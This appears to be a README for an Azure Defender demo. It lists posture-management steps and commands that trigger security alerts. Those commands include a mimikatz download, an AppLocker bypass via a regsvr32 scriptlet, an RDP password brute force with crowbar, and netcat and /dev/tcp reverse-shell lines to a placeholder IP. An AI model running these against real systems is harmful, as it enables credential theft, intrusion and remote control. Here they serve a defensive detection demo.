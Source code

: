 # Infrastructure demo

## Posture management - secure score, best practicies, vulnerabilities
### Vulnerabilities
Check vulnerabilities found in VMs (by Qualys engine), container images, storage accounts, recommended security configurations.

### Policies - VMs, Kubernetes, Policy as Code
- Explain policy as code principles
- In policy definitions show examples:
    - Azure policy -> search for:
        - locations
        - backup
        - encrypt
        - firewall
        - logs
    - OS level policies -> search for audit
    - Containers and Kubernetes policies -> search for container
- Search for initiatives such as ISO 27001
- Remidiations
- Blueprints

## Threat protection and automation

### Windows Host level protection
Search for alerts such as suspicious process or RDP attack.

To generate some alerts, you can run the following on monitored VM.

```powershell
# Create file with malware test content
'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' | Out-File EICAR.com

# Copy svchost.exe to non-standard location and execute it
Copy-Item -Path C:\Windows\System32\svchost.exe C:\
C:\svchost.exe

# Download and expand mimikatz
https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip","c:\install\mimikatz_trunk.zip")
cd c:\install
Expand-Archive -LiteralPath 'c:\install\mimikatz_trunk.zip'

# Attempt to bypass App Locker
echo '<?XML version="1.0"?>' | Out-File test.sct
echo '<scriptlet>' | Out-File -Append test.sct
echo '<registration' | Out-File -Append test.sct
echo ' progid="TESTING"' | Out-File -Append test.sct
echo ' classid="{A1112221-0000-0000-3000-000DA00DABFC}" >' | Out-File -Append test.sct
echo ' <script language="JScript">' | Out-File -Append test.sct
echo ' <![CDATA[' | Out-File -Append test.sct
echo ' var foo = new ActiveXObject("WScript.Shell").Run("powershell.exe InvokeWebRequest -OutFile eicar.com http://www.eicar.org/download/eicar.com");' | Out-File -Append test.sct
echo ' ]]>' | Out-File -Append test.sct
echo '</script>' | Out-File -Append test.sct
echo '</registration>' | Out-File -Append test.sct
echo '</scriptlet>' | Out-File -Append test.sct
regsvr32.exe /s /u /i:test.sct scrobj.dll
```

From Linux machine initiate RDP brute force attack. 

```bash
# Download 500 worst passwords dictionary
wget http://downloads.skullsecurity.org/passwords/500-worst-passwords.txt.bz2
bzip2 -d 500-worst-passwords.txt.bz2

# Install crowbar and run RDP dictionary attack
sudo apt install -y ubuntu-desktop nmap openvpn freerdp-x11 tigervnc-viewer python3 python3-pip

git clone https://github.com/galkan/crowbar
cd crowbar/
pip3 install -r requirements.txt

./crowbar.py -b rdp -u administrator -C ../500-worst-passwords.txt -s 10.0.0.4/32 -v -D -n1
./crowbar.py -b rdp -u tomas -C ../500-worst-passwords.txt -s 10.0.0.4/32 -v -D -n 1
./crowbar.py -b rdp -u tomas -c Azure12345678 -s 10.0.0.4/32 -v -D -n 1
```

Use automation to isolate RDP access (Logic App with NSG). Before running this demo go to connectors or inside Logic App and authorize connections to Office365.

1. Open Alert that includes attacker IP (eg. RDP brute force attack)
2. In portal show VM blade with Networking - RDP from inside VNET is allowed without restrictions
3. Take action on alert by invoking isolateVm Logic App
4. Check VM blade again for blocking rule on Networking
5. You will also receive email message

### Linux Host level protection
Generate suspicious activity on Linux VM.

```bash
# Attempt to create revese shell
nc -e /bin/bash 1.2.3.4 1234
bash -i>& /dev/tcp/1.2.3.4/1234 0>&1

# Add and remove kernel module
# sudo insmod /lib/modules/5.4.0-1031-azure/kernel/drivers/firewire/nosy.ko 
# sudo rmmod /lib/modules/5.4.0-1031-azure/kernel/drivers/firewire/nosy.ko 
```

Check alert in Azure Defender.

### Storage protection
As per demo install instructions (README.md) we have already uploaded EICAR test malware file to blob storage.

Before running this demo go to connectors or inside Logic App and authorize connections to Office365.

Demonstrate blob malware automation:
1. Open alerts that malware was detected in Blob Storage
2. Open Blob Storage and show files is there
3. Click on alert and take action by executing azdefenderDeleteBlob Logic App
4. You will receive email - click on delete button
5. Show file has been deleted, yet is recoverable due to Soft Delete feature
6. Show confirmation email

### Kubernetes protection
Open Azure Cloud Shell (bash) and install few resources that run privileged container, create new highly privileged role and create new cluster-role binding on admin.

```powershell
$resourceGroupName = "azdefender"
Import-AzAksCredential -ResourceGroupName $resourceGroupName -Name $(Get-AzResourceGroupDeployment -ResourceGroupName $resourceGroupName -Name azdefender-infra).outputs.kubeName.Value -Force

kubectl apply -f https://raw.githubusercontent.com/tkubica12/azdefender-demo/master/kubernetes/resources.yaml 
```

After some time check alerts in Azure Defender.

